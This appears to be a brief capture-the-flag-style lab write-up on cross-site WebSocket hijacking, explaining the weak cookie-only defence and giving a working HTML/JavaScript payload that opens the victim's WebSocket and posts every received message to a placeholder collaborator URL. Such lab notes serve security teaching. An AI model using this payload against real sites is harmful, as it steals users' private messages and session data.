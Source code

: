 ## Lab: Cross-site WebSocket hijacking

Defense:
- Websocket connection rely only on a session cookie
- and the session cookie is set 'SameSite: None'
- Send "Ready" and receives all history message

Bypass:
- a csrf websocket hijacking

```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```